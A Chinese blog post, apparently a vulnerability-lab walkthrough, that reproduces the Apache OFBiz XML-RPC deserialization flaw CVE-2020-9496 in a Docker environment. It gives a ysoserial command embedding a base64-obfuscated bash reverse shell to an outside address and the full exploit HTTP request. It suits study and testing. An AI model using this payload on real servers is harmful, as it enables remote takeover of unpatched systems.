




# Apache OfBiz 反序列化命令执行漏洞（CVE-2020-9496） - NoCirc1e - 博客园

> 原文：[`www.cnblogs.com/NoCirc1e/p/16283205.html`](https://www.cnblogs.com/NoCirc1e/p/16283205.html)

Apache OFBiz 是一个非常著名的电子商务平台，是一个非常著名的开源项目，提供了创建基于最新 J2EE/XML 规范和技术标准，构建大中型企业级、跨平台、跨数据库、跨应用服务器的多层、分布式电子商务类 WEB 应用系统的框架。 OFBiz 最主要的特点是 OFBiz 提供了一整套的开发基于 Java 的 web 应用程序的组件和工具。包括实体引擎, 服务引擎, 消息引擎, 工作流引擎, 规则引擎等。

其 17.12.04 版本之前的 XMLRPC 接口存在一处反序列化漏洞，攻击者利用这个漏洞可以在目标服务器上执行任意命令。

参考链接：

*   [`securitylab.github.com/advisories/GHSL-2020-069-apache_ofbiz`](https://securitylab.github.com/advisories/GHSL-2020-069-apache_ofbiz)
*   [`github.com/dwisiswant0/CVE-2020-9496`](https://github.com/dwisiswant0/CVE-2020-9496)
*   [`www.cnblogs.com/ph4nt0mer/p/13576739.html`](https://www.cnblogs.com/ph4nt0mer/p/13576739.html)

## 漏洞环境

执行如下命令启动一个 Apache OfBiz 17.12.01 版本：

```
docker-compose up -d
```



在等待数分钟后，访问`https://your-ip:8443/myportal/control/main`查看到登录页面，说明环境已启动成功。



## 漏洞复现

由于默认情况下没有报错信息，所以使用[参考连接 2](https://github.com/dwisiswant0/CVE-2020-9496)中给出的方法无法正确判断漏洞是否存在，还是需要通过执行反序列化来复现漏洞。

使用[ysoserial](https://github.com/frohoff/ysoserial)的 CommonsBeanutils1 来生成 Payload：

```
java -jar ysoserial.jar CommonsBeanutils1 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4Ljc1LjE1MC85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}" | base64 | tr -d "\n"
```



将 base64 后的 payload 替换并发送如下数据包：

```
POST /webtools/control/xmlrpc HTTP/1.1
Host: your-ip:8443
Content-Type: application/xml
Content-Length: 4093

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable >[base64-payload]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall> 
```

